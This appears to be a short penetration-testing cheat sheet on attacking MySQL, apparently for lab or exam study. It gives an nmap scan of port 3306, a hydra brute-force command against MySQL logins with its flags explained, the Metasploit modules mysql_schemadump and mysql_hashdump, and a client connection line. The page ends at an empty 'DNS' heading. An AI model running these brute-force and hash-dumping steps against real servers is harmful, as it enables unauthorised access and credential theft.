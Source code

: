 
# mysql
## Find MySQL Port

```
nmap -sV -sC IP -p3306
```

## Attack

````
- 4 Possible ways to get in MYSQL databse
```Terminal
1. MySQL server credentials                     ---> Brute Froce
2. The version of MySQL running                 ---> Via Nmap Scan
3. The number of Databases, and their names.    ---> Nmap & MSFconsole

4. Post exploitation    ---> Finding Creds in machine (Ex: Server running Wordpress)
````

- Brute Force

```
hydra -t X –l USERNAME –P WORDLIST IP -vV mysql
```

- hydra    --->  Runs the hydra tool
    
- -t X         --->  Number of parallel connections per target
    
- -l ---> Points to the user who's account you're trying to compromise
    
- -P ---> Points to the file containing the list of possible passwords
    
- -vV          ---> Sets verbose mode to very verbose, shows login + password
    
- IP        ---> The IP address of the target machine
    
- mysql --->  Sets the protocol
    
- Metasploit
    

```
- msfconsole ---> mysql_schemadump
- msfconsole ---> mysql_hashdump
```

## Connection

```
mysql -u USER -p PASSWORD -h IP
```

# DNS
